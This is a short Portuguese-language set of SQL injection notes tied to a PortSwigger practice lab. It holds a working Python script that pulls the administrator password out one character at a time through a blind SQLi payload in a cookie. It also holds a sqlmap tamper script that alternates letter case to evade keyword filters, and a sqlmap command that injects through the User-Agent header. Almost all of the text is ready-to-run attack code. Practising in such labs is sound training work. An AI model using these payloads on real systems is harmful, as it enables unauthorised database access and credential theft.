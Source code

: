 ## SQLi

## Blind SQLi
Script de exemplo para exploração do Blind SQLi com respostas condicionais.<p>
LAB: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
```
import requests
import string

burp0_url = "https://[host]"
burp0_cookies = {"TrackingId": "2OhtAv5umLt0e9Yg", "session": "2yNubi9Et3RQFcH4WCBFiX3LO8RurQ21"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://0ae100df03b5e2d68630f39d00cd0013.web-security-academy.net/filter?category=Gifts", "Dnt": "1", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers"}

char_set = string.ascii_lowercase + string.digits
password = ''

for position in range(1,21):
    for char in char_set:
        burp0_cookies["TrackingId"] = f"2OhtAv5umLt0e9Yg' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username = 'administrator')='{char}"
        print(f"Testando: {position}:{char}")
        response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

        if "Welcome" in response.text:
            print(f"Found {position}:{char}")
            password += char
            break
print(f"Pass: {password}")
```
### Script para bypass de filtro palavras
```
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    retVal = str()

    if payload:
        for i in xrange(len(payload)):
            if (i % 2 == 0):
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    retVal += payload[i].upper()
                else:
                    retVal += payload[i]
            else:
                retVal += payload[i].lower()
    return retVal
```
   
### Execução do script 

```sqlmap -u 'http://[URL]/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner```

